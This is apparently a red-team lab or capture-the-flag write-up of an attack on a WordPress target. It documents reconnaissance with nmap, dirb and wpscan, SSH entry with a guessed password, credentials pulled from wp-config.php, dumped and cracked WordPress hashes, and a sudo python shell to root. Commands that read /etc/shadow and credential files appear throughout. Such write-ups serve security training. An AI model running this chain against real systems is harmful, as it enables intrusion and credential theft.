 


# Red Team: Summary of Operations
Table of Contents:

* Reconnaissance Phase
* Service Abuse 
* Lateral Movement 
* Privilege Escalation
* Critical Vulnerabilities 

# Reconnaissance Phase: it is all about Enumeration!

During the reconnaissance phase on the Target, we used different tools to collect and gather important information about the target.

Tools used during the reconnaissance phase: Nmap, dirb, and wpscan 


We used Nmap to scan the target and enumerate the open ports 

Command used to scan Target 1 Machine: ` nmap -sV -sC 192.168.1.110 `

<img src="/Red Team Summary of Operations/Images/nmap.png" >

This scan identifies the services below as potential points of entry:

|  Port | Service  | 
|---|------|
| 22 |  SSH | 
| 80  | HTTP  |  
| 111  |  rcpbind | 
| 139  | NetBIOS |
| 445 | NetBIOS |

After discovering that the target is a web application running on port 80 we used dirb to enumerate the web application hidden directory.

<img src="/Red Team Summary of Operations/Images/website.png">

Command used: `dirb http://192.168.1.110 /usr/share/dirb/wordlist/small.txt`

<img src="/Red Team Summary of Operations/Images/dirb.png">
     
Using dirb give us new information that website running on WordPress, so we used wpscan to enumerate the users. 


Command used: `wpscan -url 192.168.1.110/wordpress -enumerate u `

<img src="/Red Team Summary of Operations/Images/users_enum2.png">


## Service Abuse: 
During our reconnaissance phase we found out that SSH service is open on port 22 and we discover two users michael and steven, so we abuse this two information we have and try to guess the password of one of the users.

Command used: `ssh michael@192.168.1.110`
password: `michael `

Since we were inside the target machine we were able to collect the first two flags: 
Command used for flag1: 

* `grep -lr flag1 /var/www `
* `cat /var/www/html/service.html | grep flag1 `

<img src="/Red Team Summary of Operations/Images/flag1.png">

Command used for flag2: 

* `locate flag2.txt`
 
* `cat /var/www/flag2.txt`

![flag2](https://user-images.githubusercontent.com/69011745/153727072-1bceb9f7-c7b0-4404-bfe3-df89c5c33950.png)

## Lateral Movement: 
With Michael's credentials we were able to navigate through the file system of the target machine and revealed the root username and password for MySQL database.


File Path: `/var/www/html/wordpress/wp-config.php`

<img src="/Red Team Summary of Operations/Images/password_db.png">

Next, we logged into MySQL and dumped the WordPress user password hashes using the password `R@v3nSecurity` :

Command used:
* `mysql -u root -p` 
* `show DATABASES;`
* `use wordpress;`
* `show tables;`
* `select user_login,user_pass from wp_users;`  

<img src="/Red Team Summary of Operations/Images/mysqlhashes.png">

we got flag3.txt also by:  
* `mysql -u root -p`
* `show DATABASES;`
* `use wordpress;`
* `show tables;`
* `Select * from wp_posts;`

<img src="/Red Team Summary of Operations/Images/flag3.png">

Now we have the password hash for steven, we used john to crack the password hash
Command used:
* `john hash1.txt -w=rockyou.txt ` 
<img src="/Red Team Summary of Operations/Images/CaptureJohn_Steven_Pass.PNG">


## Privilege Escalation
With steven password:`pink84,` we logged into the target machine again and checked his sudo privileges and discovered he had sudo right for python. 
We escalated our privileges from steven to root using python script.


Command used: 
* ssh steven@192.168.1.110 
* sudo -l 
* python -c 'import pty;pty.spawn("/bin/bash");'
* locate flag4.txt 
* cat /root/flag4.txt
<img src="/Red Team Summary of Operations/Images/flag4.png">

As root user, we dumped all user hashes including the root user hash:
Command used:` cat /etc/shadow`

<img src="/Red Team Summary of Operations/Images/all_hashs.png">

## Critical Vulnerabilities Discover During Our Engagement: 

* No firewall rule to block Nmap port scanning 
* Web application Directory enumeration 
* WordPress enumeration
* Poor SSH configuration 
* Weak Password policies 
* No file security permission implementation for critical files system  
* Sudo rights for python used to escalate privilege to root 
